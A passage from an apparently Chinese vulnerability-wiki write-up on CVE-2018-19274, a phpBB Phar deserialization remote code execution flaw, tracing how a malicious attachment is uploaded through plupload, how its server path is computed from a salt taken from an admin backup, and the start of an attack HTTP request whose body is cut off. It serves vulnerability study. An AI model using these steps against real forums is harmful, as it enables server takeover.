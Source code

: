 此时已经可以触发反序列化，还需上传包含利用链的恶意附件。

### 上传恶意附件

上传位置为前台发帖附件处:

![11.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId37.png)

处理文件上传的关键函数，以及函数调用栈：

文件位置：`phpBB3/phpbb/plupload/plupload.php`

![12.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId38.png)

在这里函数handle\_upload可以实现多个`chunk`处理。`$this->request->variable`函数根据键名从请求中获取值，首先获取`chunks`的值，并判断`chunk`是否小于2，如果小于就直接返回，如果大于就开始进行多`chunk`处理。

然后进入关键的`temporary_filepath`函数：

![13.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId39.png)

这个就是计算上传文件路径的函数，`$this->temporary_directory`可知为`./files/plupload`，`$file_name`可控，`\phpbb\files\filespec::get_extension($file_name)`获取文件的后缀同样可控，比较麻烦的是`$this->config['plupload_salt']`存在于数据库中，但可以在管理面板中通过备份进行获取。

![14.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId40.png)

`plupload_salt`如下

![15.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId41.png)

此时已经完全可以计算路径

    ./files/plupload/c2f830acec21b6d3a45ff0f5b3f35273_5de5caf862ea58bbb27aff231f06c7f3zip

然后进入函数进行文件写入

![16.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId42.png)

中途会产生一个临时文件，但后面会删除，最后文件名还会增加`.part`后缀。

    ./files/plupload/c2f830acec21b6d3a45ff0f5b3f35273_5de5caf862ea58bbb27aff231f06c7f3zip.part

攻击数据包如下：

    POST /phpBB3/posting.php?mode=post&f=2&sid=a3f8b226bd4ad508d8838284c0cfc332 HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 1909
    Origin: http://bugtest.com
    x-requested-with: XMLHttpRequest
    x-phpbb-using-plupload: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuHMhmTMPyBMwbiEg
    Accept: */*
    Referer: http://bugtest.com/phpBB3/posting.php?mode=post&f=2&sid=52c63bf06fdeaef60de9b8fba1de97ad
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
